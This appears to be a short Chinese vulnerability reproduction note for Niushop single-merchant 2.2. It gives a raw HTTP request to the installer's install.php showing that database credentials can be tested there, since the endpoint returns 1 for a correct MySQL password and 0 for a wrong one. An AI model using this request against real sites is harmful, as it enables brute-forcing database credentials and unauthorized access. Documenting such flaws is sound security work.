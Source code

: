 ```yaml
---
title: Niushop 单商户 2.2 爆破MySQL密码
id: zhfly3050
---
```


# Niushop 单商户 2.2 爆破MySQL密码

## 一、漏洞简介

## 二、漏洞影响

Version：单商户 2.2

## 三、复现过程

### 安装爆破MySQL密码

```
GET /niushop/install.php?action=true&dbserver=127.0.0.1&dbpassword=root2&dbusername=root&dbname=niushop_b2c HTTP/1.1
Host: 127.0.0.1
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Referer: http://127.0.0.1/niushop/install.php?refresh
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: action=db
Connection: close 
```

![image](../img/0c273b46618a944ffd709f0c0a1e78a7.png)

爆破成功返回1，密码错误返回0

## 参考链接

> https://y4er.com/post/niushop-getshell/
